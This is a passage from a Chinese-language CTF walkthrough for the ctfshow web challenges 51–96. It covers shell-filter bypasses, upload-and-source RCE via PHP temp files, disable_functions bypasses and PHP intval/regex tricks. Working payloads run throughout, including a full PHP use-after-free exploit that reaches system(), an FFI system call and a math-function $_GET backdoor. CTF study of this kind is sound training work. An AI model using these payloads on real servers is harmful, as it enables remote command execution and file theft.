"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i"
```

过滤了tac，我们用t\ac来绕过

先查看flag位置


构建命令

```
?c=t\ac<>fl\ag.php||
```

得到flag


------

#### web52

分析


过滤了

```
("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i"
```

这次过滤了尖括号，但$没有过滤，所以空格过滤可以用${IFS}

查看flag位置


构建命令

```
?c=ta\c${IFS}fl\ag.php||
```

发现flag换位置了


重新对根目录进行查找

```
?c=ls${IFS}/||
```

发现flag位置


构建命令

```
?c=ta\c${IFS}/fl\ag||
```

得到flag


------

#### web53

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i"
```

没有重定向了，就不需要分隔符了

查看flag位置


构建命令

```
?c=t\ac${IFS}fla?.php
```

得到flag


------

#### web54

分析


过滤了

```
"/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i"
```

导致我们无法利用\的形式进行分割

##### 方法一：利用grep命令

grep命令可以查找文件中含有指定字符的那一行，并且打印出来

```
grep flag flag.php 
```

先查找flag位置


构建命令

```
?c=grep${IFS}show${IFS}fla??php
```

得到flag


##### 方法二：利用bin文件夹下的基本命令

linux中的bin文件夹下储存着基本命令，可以使用通配符去调用命令，bin为binary的简写，主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等。
 我们日常直接使用的cat或者ls等等都其实是简写，例如ls完整全称应该是/bin/ls


比如：想要利用cat命令，我们可以使用

```
?c=/bin/cat
```

来实现，由此可以构建命令

```
?c=/bin/?at${IFS}f???????
?c=/bin/??t$IFS????????
```

在源码里查看flag


#### web55

分析


过滤掉了英文字母

##### 方法一：使用base64对文件进行读取

```url
?c=/bin/base64 flag.php
?c=/???/????64 ????????

```


得到经过base64加密的内容

经过base64解码得到flag


##### 方法二：bzip2的使用

bzip2是linux下面的压缩文件的命令
我们可以通过该命令压缩flag.php 然后进行下载

```
?c=/???/???/???2 ????.???
```

也就是/usr/bin/bzip2 flag.php
然后访问/flag.php.bz2进行下载获得flag.php


解压得到flag


##### 方法三：强制文件上传下的无字母数字RCE

在PHP中，强制上传文件时，文件会被存在临时文件/tmp/phpxxxxxx中

这个文件最后六位xxxxxx有大小写字母、数字组成，生命周期只在PHP代码运行时。

题目中正则匹配过滤了大小写字母（i）

故我们要匹配/tmp/phpxxxxxx的话可以用通配符/???/?????????

/???/?????????范围太大了，我们如何缩小范围呢。

查看ascii码表，A前面是@，Z后面是[

/???/????????[@-[]就表示了最后一位是大写

当临时文件最后一位是大写字母时/???/????????[@-[]就能匹配到这个文件

linux中 . 代表执行一个文件，相当于source 可以执行sh命令。

如果上传的文件是一个shell脚本，那么. /???/????????[@-[]（burp里面空格要写成+或者%20）就能执行这个shell脚本，实现RCE。

首先构建一个文件上传的upload.html


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://1dd04609-ca53-4e68-a4d7-381957302f31.challenge.ctf.show/" enctype="multipart/form-data" method="post" >

    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />

</form>

</body>
</html>
```

这里我用的小皮用bp自带的浏览器打开upload


构建文本text.txt，进行上传抓包


抓到包


但是我们上传的临时文件生命周期只在PHP代码运行时。所以我们要同时进行访问，怎么访问到呢，前面说过，构建一个

```
. /???/????????[@-[]
但是在bp里就要写成
.+/???/????????[@-[]
```

就有机会访问并执行，没错有机会


发送到Repeater，发送请求

经过6次发送，成功访问


既然命令可以执行了，那我们去寻找一下flag


这次比较幸运，两次就访问到

cat一下，得到flag


------

#### web56

分析


过滤了字母和数字

web55的方法三就可以利用

再试一次

构建upload（更改url）

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://36b8d408-5872-4311-8784-1ae9b5f18a65.challenge.ctf.show/" enctype="multipart/form-data" method="post" >

    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />

</form>

</body>
</html>
```

进行访问，文件上传


抓包并发给Repeater


成功执行命令


查看flag位置


找到flag，cat查看


------

#### web57

分析


过滤了

```
"/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i"
```

但是分析代码，只要我们传入一个c=36就可以

构建36

```
$(())=0
对其进行取反
$((~$(())))=-1
构建出36，就是构建-37然后进行取反
$((~$((加上37个-1))))
$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))=36
```


构建命令

```
?c=$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))
```

得到flag


------

<div style="page-break-after:always"></div>

### 类型四

PHP代码执行，突破禁用函数,绕过disable_functions

#### web58

分析代码


##### 方法一：剑蚁链接（不推荐）


发现flag


##### 方法二：读取文件函数进行读取flag

首先介绍一下几种函数的用法

执行命令的函数

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```

首先获得文件路径

| 函数名    | 功能                                 |
| --------- | ------------------------------------ |
| scandir() | 扫目录用的，返回数组                 |
| getcwd()  | 返回当前目录                         |
| glob()    | 包含匹配指定模式的文件名或目录的数组 |
| dir()     | 返回 Directory 类的实例              |
| opendir   | 打开目录句柄                         |

```
c=print_r(scandir(dirname('__FILE__')));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };

c=$a=dir(getcwd());while ($file = $a->read()){echo $file . "<br>"; };

```

选用命令，查看文件目录

第一种：

```
c=print_r(scandir(dirname('__FILE__')));
```


第二种：

```
c=$a=new DirectoryIterator('glob://*');foreach($a as $f){echo($f->__toString()." ");}
```


第三种：

```
c=$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };
```


第四种：

```
c=$a=dir(getcwd());while ($file = $a->read()){echo $file . "<br>"; };
```


读取文件函数

```

highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include（）
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
```

同样，为了加深印象，我们都试一下，进行post传参

第一种：

```
c=highlight_file("flag.php");
```


第二种：

```
c=show_source("flag.php");
```


第三种：

```
c=print_r(php_strip_whitespace("flag.php"));
```


第四种：

```
c=print_r(file_get_contents("flag.php"));
```


第五种：

```
c=readfile("flag.php");
```


第六种：

```
c=print_r(file("flag.php"));
```


第七种：（失败，fread被禁）

```
c=fread(fopen("flag.php","r"), $size);
```


第八种：

```
c=fpassthru(fopen("flag.php", "r"));
```


第九种：（失败，fgetss被禁）

```
print_r(fgetss(fopen($filename, "r")));
```


------

#### web59

分析


代码发现没有变化，应该是有新的函数被禁用

##### 方法一：剑蚁

剑蚁很简单，就不赘述了


##### 方法二：读取文件函数进行读取flag

不知道禁用的哪个，都试试看

查看目录

```
c=print_r(scandir(dirname('__FILE__')));
```


查看flag

选用

```
c=highlight_file("flag.php");
```


------

#### web60

代码发现没有变化，应该是有新的函数被禁用

剑蚁可以链接，但是无法显示内容？？？不解

那就用读取文件函数进行读取flag

查看目录

```
c=print_r(scandir(dirname('__FILE__')));
```


查看flag

```
c=highlight_file("flag.php");
```


------

#### web61


应该是有新的函数被禁用，蚁剑无法链接

采用通过读取文件函数进行读取flag

先查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```


使用读取文件函数进行读取

```
c=highlight_file("flag.php");
```

得到flag


------

#### web62

同样，先试一下蚁剑，不出预料的失败了

构建命令查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```


构建命令获取flag

```
c=highlight_file("flag.php");
```

得到flag


------

#### web63

蚁剑尝试失败

构建命令查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```


构建命令查看flag

```
c=highlight_file("flag.php");
```

得到flag


---

#### web64

蚁剑尝试失败

构建命令，查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```


构建命令，查看flag

```
c=highlight_file("flag.php");
```

得到flag


------

#### web65

构建命令查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```


构建命令查看flag

```
c=highlight_file("flag.php");
```

得到flag


------

#### web66

构建命令查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```


查看flag

```
c=highlight_file("flag.php");
```


踩到坑了

继续寻找flag位置

构建命令

```
c=print_r(scandir(dirname('/')));
查看根目录下文件
```


构建命令，获取flag

```
c=highlight_file("/flag.txt");
```


------

#### web67

老规矩查看flag位置

```
c=print_r(scandir(dirname('/')));
```


print_r()被禁，那我们换一个

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```


找到flag位置，构建命令查看flag

```
c=highlight_file("/flag.txt");
```

得到flag


------

#### web68

发现没有代码


提示 highlight_file()被禁用

先查看flag位置

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```


查看flag

```
c=highlight_file("/flag.txt");
highlight_file()被禁用，所以要换一个
c=show_source("flag.txt");
c=show_source()被禁用
```


```
这里我们用
c=include("/flag.txt");
```


得到flag

------

#### web69

和68一样

通过命令

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

对目录进行扫描


```
这里我们用
c=include("/flag.txt");
```


得到flag

----

#### web70


继续上一题的方法


---

#### web71


再用上次的方法发现无法读取，


发现附件里有一个index.php下载查看

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

可以看到post传入一个c

```
  echo preg_replace("/[0-9]|[a-z]/i","?",$s);
```

这句话把数字字母替换为了？

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

我们可以在命令后面加上exit(0);用来跳过正则替换


```
c=include("/flag.txt");exit(0);
```


---

#### web72

下载附件，发现两个文件相同，

我们套用上一题的方法

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```


```
c=include("/flag0.txt");exit(0);
```


发现include无法使用

用一下群主发的exp

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦

```

我们直接将上文通过post，经过url编码后传入

得到flag

我们就可以通过修改

```
ctfshow("cat /flag0.txt");ob_end_flush();
```

中的值达到命令执行

---

#### web73

我们可以用上一题的exp直接执行一下看看


发现没法用

在用之前的方法

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```


```
c=include("/flagc.txt");exit(0);
```

这次include可以使用了


---

#### web74

和上一题的payload一样，本题中的flag文件为flagx.txt


---

#### web75

使用下面的命令查看目录

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```


include无法读取

换一个方法

payload

```
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

利用的mysql的load_file进行读取文件


---

#### web76

和上一题的payload一样

---

#### web77

先扫描目录

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```


接下来读取flag

发现一个flag36x.txt和readflag，题目提示了php7.4，搜了一下是利用[FF1拓展](https://www.laruence.com/2020/03/11/5475.html)(php7.4开始才有)，payload如下

```
c=?><?php $ffi = FFI::cdef("int system(const char *command);");$ffi->system("/readflag >1.txt");exit();
```

然后访问1.txt


---

### 类型五

运用环境变量构建命令

#### web118


经过测试后发现只能注入大写字母和${}:?.~等等字符可以通过，可以使用bash内置变量进行利用

提示中目录为/var/www/html 

环境变量为/bin

那么我们就可以构建命令nl


可以看到可以通过`${PWD:~A}`获得当前目录的最后一位，所以同理`${PATH:~A}`也可以获得最后一位

即可构建出nl，

```
${PATH:~A}${PWD:~A}
```

最后利用通配符，打印flag

```
${PATH:~A}${PWD:~A} ????.???
```


---

#### web119

这次在前面的基础上把path给禁了，也就是我们无法获得n这个字母，也就无法构成了nl命令。接下来我们尝试构造一下`/bin/cat`，而想要匹配到我们至少需要一个`/`符号和一个`cat`中的一个字母，这里使用`${SHLVL}`来配合构造`/`

SHLVL 是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时${SHLVL}=1，然后在此shell中再打开一个shell时$SHLVL=2。

一般给的权限都是www-data，所以我们用`${USER}`可以获得“www-data”，而我们要取到at的话需要`${USER:~2:2}`，但数字是被禁了，所以接下来我们需要构造出2，

php的版本是7.3.22，正好包含数字2，所以利用`PHP_VERSION`



`${PHP_VERSION:~A}`是2

`${USER:~${PHP_VERSION:~A}:${PHP_VERSION:~A}}`

就是对user参数从倒数第二个开始取两个，也就是at

再利用通配符

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${USER:~${PHP_VERSION:~A}:${PHP_VERSION:~A}} ????.???

```


---

#### web120

题目给了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

限制了长度

我看一下上一题payload的长度


这肯定不行

上题修改一下只用user的最后一位t,然后发现多了一位

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${USER:~A}? ????.???
```

现在分析一下，必须要有的元素`????.???`这就占用了9个（有一个空格），`${USER:~A}`这个是要有的，然后是五个问号，就是24个，还剩41个字节，也就是20个字节构建出一个`/`

```
${PWD:${#}:${#SHLVL}}我们去掉${#}试一下
得到的也是/
长度是17，符合条件
```

构建payload

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```




在源码中找一下flag


---

#### web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

过滤了USER和shlvl上体的payload无法使用，pwd没有被禁

我们要想办法构建出一个1

我们可以用$?

他代表上次执行命令的结果，0为正常，1为非正常，所以我们要先让他不正常

这里我们利用base64进行读取文件，就用到了随机数${#RANDOM}构建出一个4，因为是随机数，所以要多试几次

payload

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```


得到base64编码的flag

进行解码



---

#### web122

 

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>


```

pwd被过滤了

尝试用home

```
${HOME::${#?}}???${HOME::${#?}}?????${#RANDOM} ????.???
```

然后发现#被过滤

重新构建，因为要求是1

所以要进行命令拼接

```
<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

得到flag


---

### 类型六

构建get后门

#### web124

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

分析一波源码，get传参c，并且长度不能超过80，设置了黑名单和白名单和正则过滤。按照提示我们去找找一些数学函数进行使用，这么多白名单也注定了有多种payload，这里我使用`base_convert()`、`hex2bin`和`dechex`配合使用


这样我们就可以简单构造一下

```
base_convert(37907361743, 10, 36)(dechex(1598506324));

37907361743转换为36进制为hex2bin

dechex(1598506324)的结果是5f474554
hex2bin(5f474554)为_GET

进行赋值
$pi = base_convert(37907361743, 10, 36)(dechex(1598506324));
$$pi就为$_GET

$pi=base_convert(37907361743,10,36)(dechex(1598506324));
$$pi{abs}($$pi{acos});//$_GET[abs]($_GET[acos])就相当于构建一个后门
&abs=system&acos=ls
```

最后的payload

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=ls
```


cat一下得到flag


---

## 四、php特性

主要考察对php函数的理解

### web89

```php

include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

这题考察intval函数


我们需要传入的num不是数字，而且可以转换为1

intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1

利用这一句，我们可以传入数组

payload

```
?num[]=1
```

得到flag


---

### web90

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
} 
```

分析函数，需要传入的数字不能等于4476，但是转换后需要等于4476

然后我们可以利用这一条

如果 base 是 0，通过检测 var 的格式来决定使用的进制

- 如果字符串包括了 “0x” (或 “0X”) 的前缀，使用 16 进制 (hex)；否则，
- 如果字符串以 “0” 开始，使用 8 进制(octal)；否则，
- 将使用 10 进制 (decimal)。

```
echo intval('0x1A', 0);               // 26
```

就要使我们传入的是一个十六进制的数字，经过转换后是4476


payload

```
?num=0x117c
```

得到flag


---

### web91

```php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
} 
```

这题考的是正则匹配绕过

```
/i表示匹配大小写

字符 ^ 和 $ 同时使用时，表示精确匹配，需要匹配以php开头和以php结尾

/m 多行匹配
若存在换行\n并且有开始^或结束$符的情况下，将以换行为分隔符，逐行进行匹配
但是当出现换行符 %0a的时候，$cmd的值会被当做两行处理，而此时第二个if正则匹配不符合以php开头和以php结尾
```

payload

```
?cmd=%0aphp
```

得到flag


---

### web92

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

和90题一样

变成了弱比较

payload不变

payload

```
?num=0x117c
```

得到flag


---

### web93

```php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

多了一个正则匹配，传入的数据不能包含字母

这样我们就不能用16进制了

尝试使用8进制

payload

```
?num=010574
```

得到flag



---

### web94

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

这里多了一个函数我们查看一下是做什么作用


```
!strpos($num, "0")
检索传入的值0的位置，位置是从0开始
```

如果我们直接传入八进制,会检测0的位置，在第一位是0，在经过非运算得到1，就会执行die
我们需要在八进制前面加上空格就好了

payload

```
?num= 010574
```

得到flag


---

### web95

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

这题换成了弱比较且过滤了`.`

但是对于我们并没有影响

payload

```
?num= 010574
```

---

### web96

```php
highlight_file(__FILE__);

if(isset($_GET['u'])){
